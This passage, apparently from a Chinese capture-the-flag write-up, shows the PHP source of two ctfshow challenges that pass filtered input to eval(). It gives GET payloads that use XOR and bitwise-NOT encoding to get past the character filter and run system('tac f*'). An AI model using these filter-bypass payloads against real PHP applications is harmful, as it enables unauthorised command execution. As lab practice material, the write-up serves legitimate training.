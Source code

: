 ```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

过滤了取反符号，可以进行异或

```
v1=1&v2=1&v3=/("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")/
```

## web144(无数字字母rce)

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
} 
```

同样，取反，异或

payload：

```
v1=1&v3=-&v2=(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)
v1=1&v3=-&v2=("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")
```
